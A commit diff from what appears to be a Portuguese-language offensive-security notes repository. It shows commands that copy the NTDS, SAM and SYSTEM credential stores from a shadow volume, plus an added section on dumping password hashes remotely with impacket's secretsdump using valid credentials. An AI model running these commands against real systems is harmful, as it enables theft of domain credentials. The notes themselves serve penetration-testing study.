

Before and after one commit to jvrajunior/offensive-security-notes, a Markdown page: notes/notes.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/notes/notes.md
+++ b/notes/notes.md
@@ -50,6 +50,11 @@ Copiar os arquivos da cópia para o disco local
 ``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``
 ``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``
 ``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``
+
+## Obtendo hashes de senhas na rede
+Outra forma de descobrir os usuários e seus hashes é através da rede, mas nesse método é necessário já ter uma credencial válida do alvo.
+
+``impacket-secretdump user:pass@host``
 
 ## Bypass UAC (Executar como Administrador)
 
```
Also changed, not shown: other parts of notes/notes.md (+35 -0 lines).
